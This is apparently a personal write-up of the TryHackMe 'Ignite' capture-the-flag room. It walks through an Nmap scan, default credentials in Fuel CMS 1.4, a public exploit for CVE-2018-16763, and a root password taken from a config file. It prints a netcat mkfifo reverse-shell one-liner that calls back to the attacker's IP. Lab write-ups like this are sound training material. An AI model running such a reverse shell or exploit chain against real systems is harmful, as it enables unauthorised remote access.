 # Ignite - Writeup

*A new start-up has a few issues with their web server.*

## Overview

This is my writeup for the Ignite CTF.  The Ignite CTF is a free room of beginner difficulty which mainly tests your methodology.  It is very heavy on information gathering, scanning, and enumeration, as well as finding exploits.  

## How to Access

I completed this CTF challenge on TryHackMe.

Link to the room:
- https://tryhackme.com/room/ignite

## Scanning and Enumeration

Firstly, I began with an Nmap scan:

```
$ sudo nmap -sC -sV -oN initial 10.10.183.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-04 00:39 BST
Nmap scan report for 10.10.183.1
Host is up (0.075s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.68 seconds

```

The initial scan shows that only port 80 is open and is running a web server.  Navigating to this shows a Fuel CMS page:

![homepage](screenshots/1_fuel_cms.png)

The website is running a Fuel CMS (Content Management System) application on version 1.4.  Scrolling down to the bottom also reveals a username and password combination:

![admin:admin](screenshots/2_admin_admin.png)

The scan also showed that there is a `/fuel` directory.  Investigating this reveals a login form:

![login](screenshots/3_login_form.png)

It also shows that `robots.txt` has a disallowed entry - this so happens to be `/fuel/`.

ExploitDB reveals that Fuel CMS v1.4 is vulnerable to remote code execution (RCE) using CVE-2018-16763 (found ![here](https://www.exploit-db.com/exploits/47138))

## Gaining Access

After downloading the exploit file and altering it so that it contained the target machine's IP address, I was able to gain access to the machine as the `www-data` user:

![gaining access](screenshots/4_gaining_access.png)

Using the following code, I was able to obtain a reverse shell using Netcat (found ![here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)):

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.150.161 4444 > /tmp/f
```

![reverse shell](screenshots/5_nc_reverse_shell.png)

I then upgraded my terminal using Python's `pty` module:

![upgrading terminal](screenshots/6_upgrading_terminal.png)

## Finding `flag.txt`

I found the flag in the `www-data` user's home directory:

![flag.txt](screenshots/7_flag_txt.png)

## Escalating Privileges and Finding `root.txt`

Investigating the web application's configuration, I found a `database.php` file which contained the `root` user's credentials:

![database.php](screenshots/8_database_php.png)

I then used these credentials to escalate my privileges into the `root` user and then found the flag within the `/root` directory:

![root.txt](screenshots/9_root_txt.png)

And that's it!  All done!

## Summary and Feedback

This challenge really tested my knowledge of scanning, enumeration, and finding vulnerabilities - an area which I'm desperately trying to optimise.  If you are a beginner and haven't quite got your methodology down, this machine will help you enhance it.